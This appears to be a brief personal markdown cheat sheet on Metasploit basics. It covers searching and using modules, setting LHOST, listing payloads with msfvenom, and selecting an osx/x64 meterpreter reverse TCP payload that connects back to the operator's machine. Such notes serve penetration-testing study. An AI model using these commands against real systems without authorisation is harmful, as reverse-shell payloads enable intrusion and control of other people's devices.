

# Metasploit

## Basics

Search for a module:

```
search osx
search port:443
```



Module are categorized:

- "local" mean you should acces the device locally
- "browser" are url that should be accessed by the browser

Use a module:

```
use 5
```

Show module options and informations:

```
info
options
```

Set module options:

```
set LHOST 192.168.1.26
```

Run the module:

```
run
```

List runing jobs:

```
jobs
```


## Payloads

Payload are a small program executed on the target device programmed to connect to your own computer on a specified port. 

In another terminal:

```
msfvenom -l payloads
```

Change payload in metasploit:

```
set payload osx/x64/meterpreter_reverse_tcp
```

Check payload:

```
get payload
payload => osx/x64/meterpreter_reverse_tcp
```


## Debug

browser exploit errors

```
ua_name ...
```

[https://github.com/rapid7/metasploit-framework/wiki/Information-About-Unmet-Browser-Exploit-Requirements](https://github.com/rapid7/metasploit-framework/wiki/Information-About-Unmet-Browser-Exploit-Requirements)